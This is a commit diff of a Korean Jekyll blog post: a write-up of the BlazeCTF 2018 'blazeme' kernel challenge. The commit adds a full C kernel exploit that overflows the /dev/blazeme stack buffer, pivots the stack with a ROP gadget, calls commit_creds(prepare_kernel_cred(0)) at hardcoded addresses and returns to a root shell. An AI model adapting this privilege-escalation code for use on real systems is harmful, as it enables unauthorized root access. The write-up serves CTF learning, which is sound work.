

Before and after one commit to nonetype/old-blog-repo, a Jekyll site: the page built from _posts/2019-09-16-BlazeCTF2018-blazeme-write-up.md, in a window 1280 px wide and 1400 px high, scrolled down 11095 px. Shown: the whole window, without its empty margins (230-1085 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; before the commit the page ends 11380 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Edited post

````diff
--- a/_posts/2019-09-16-BlazeCTF2018-blazeme-write-up.md
+++ b/_posts/2019-09-16-BlazeCTF2018-blazeme-write-up.md
@@ -432,9 +432,92 @@ strncat 위치에서 kernel stack overflow가 떴다.
 
 # 4. Exploitation
 
-Kernel Stack BOF를 통해 rip를 제어할 수 있게 되었으므로 간단한
+Kernel Stack BOF를 통해 rip를 제어할 수 있게 되었으므로
 
+## 추가중
+**Final Exploit Code**
+```c
+#include <stdio.h>
+#include <stdlib.h>
+#include <unistd.h>
+#include <fcntl.h>
+#include <string.h>
+#include <sys/mman.h>
 
+struct TrapFrame{
+	void* rip;
+	unsigned long user_cs;
+	unsigned long user_rflags;
+	void* rsp;
+	unsigned long user_ss;
+} __attribute__((packed));
+
+void *(*prepare_kernel_cred)(void *);
+int (*commit_creds)(void *);
+struct TrapFrame tf;
+
+// commit cred
+static void lpe() {commit_creds(prepare_kernel_cred(0));}
+
+// get shell
+static void shell() {
+	system("/bin/sh");
+	exit(0);
+}
+
+static void save() {
+	asm(
+		"xor %rax, %rax;"
+		"mov %cs, %ax;"
+		"pushq %rax; popq tf+8;"
+		"pushfq; popq tf+16;"
+		"pushq %rsp; popq tf+24;"
+		"mov %ss, %ax;"
+		"pushq %rax; popq tf+32;"
+	);
+	tf.rip = &shell;
+	tf.rsp = 0x5DFF0000;
+}
+
+static void restore() {
+	asm(
+		"movq $tf, %rsp;"
+		"swapgs ;"
+		"iretq;"
+	);
+}
+
+static void root_shell() {
+	lpe();
+	restore();
+}
+
+int main() {
+	commit_creds = (void*)0xFFFFFFFF81063960ull;
+	prepare_kernel_cred = (void*)0xFFFFFFFF81063B50ull;
+	save();
+	// 0xffffffff814d2720: mov esp, 0x5DFFB7B0 ; ret  ;  (1 found)
+	unsigned long *mem = mmap((void*)0x5DFF0000, 0x10000,
+	PROT_READ | PROT_WRITE | PROT_EXEC, 0x32 | MAP_POPULATE | MAP_FIXED | MAP_GROWSDOWN, -1, 0);
+	mem[0xB7B0 / 8] = (unsigned long)root_shell;
+
+	unsigned long gadget[8];
+	for(int i=0;i<8; ++i)
+	gadget[i] = 0xffffffff814d2720ull;
+
+	char chunk[64];
+	strncpy(chunk, "AA", 2);
+	strncpy(&chunk[2], (const char *)gadget, 62);
+
+	int fd = open("/dev/blazeme", O_RDWR);
+	while(1) {
+		write(fd, chunk, 64);
+	}
+
+	return 0;
+
+}
+```
 
 # 5.References
 [blazeme write-up] <https://devcraft.io/2018/04/25/blazeme-blaze-ctf-2018.html>
````
